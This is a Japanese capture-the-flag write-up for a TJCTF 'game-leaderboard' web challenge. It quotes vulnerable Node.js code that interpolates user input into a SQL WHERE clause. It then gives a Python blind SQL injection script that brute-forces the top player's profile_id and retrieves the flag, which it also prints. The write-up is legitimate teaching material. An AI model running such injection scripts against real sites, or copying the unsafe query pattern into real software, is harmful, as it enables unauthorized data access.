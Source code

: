 # Writeup

リンク先にアクセスする。

![](img/2022-05-14-23-40-50.png)

数字を入れて `Submit` を押すと、その点数以上の名前が表示されるように見える。

![](img/2022-05-14-23-41-06.png)

ソースコードを確認すると、WHERE句にPOSTでクエリを入力できるようになっている。

```js
const getLeaderboard = (minScore) => {
    const where = (typeof minScore !== 'undefined' && minScore !== '') ? ` WHERE score > ${minScore}` : ''
    const query = `SELECT profile_id, name, score FROM leaderboard${where} ORDER BY score DESC`
    const stmt = db.prepare(query)

    const leaderboard = []
    for (const row of stmt.iterate()) {
        if (leaderboard.length === 0) {
            leaderboard.push({ rank: 1, ...row })
            continue
        }
        const last = leaderboard[leaderboard.length - 1]
        const rank = (row.score == last.score) ? last.rank : last.rank + 1
        leaderboard.push({ rank, ...row })
    }

    return leaderboard
}
```

また、フラグを入手するためには、一番`score`の高い`profile_id`を探す必要がある。

```js
app.get('/user/:userID', (req, res) => {
    const leaderboard = getLeaderboard()
    const total = leaderboard.length

    const profile = leaderboard.find(x => x.profile_id == req.params.userID)
    if (typeof profile === 'undefined') {
        return res.render('user_info', { notFound: true })
    }

    const flag = (profile.rank === 1) ? FLAG : 'This is reserved for winners only!'
    return res.render('user_info', { total, flag, ...profile })
})
```

POSTパラメータに `100 or CAST(profile_id AS TEXT) like '%'` というクエリを入力することで Blind SQL Injection ができそうなので、スクリプトを組んで`profile_id`を特定する。

```py
import requests
from bs4 import BeautifulSoup
import re

with requests.Session() as session:
    r = session.get("https://game-leaderboard.tjc.tf/")
    bs = BeautifulSoup(r.text, 'html.parser')
    rank1_name = bs.select("#table-body > tr:nth-child(1) > td:nth-child(2)")[0].text

    NUMBERS = "0123456789abcdef"
    known = ""

    while True:
        for n in NUMBERS:
            guess = f'{known}{n}%'
            query = f"100 or CAST(profile_id AS TEXT) like '{guess}'"
            params = {'filter': query}
            r = session.post("https://game-leaderboard.tjc.tf/", data=params)
            bs = BeautifulSoup(r.text, 'html.parser')
            try:
                name = bs.select("#table-body > tr:nth-child(1) > td:nth-child(2)")[0].text
                if name != rank1_name:
                    continue
            except IndexError:
                # Not Found
                continue
            print(guess)
            known += n
            break
        else:
            break
    print(known)

    r = session.get(f"https://game-leaderboard.tjc.tf/user/{known}")
    print(re.findall(r'tjctf\{.*\}', r.text))
```

`/user/{profile_id}` にアクセスするとフラグが表示された。

<!-- tjctf{h3llo_w1nn3r_0r_4re_y0u?} -->
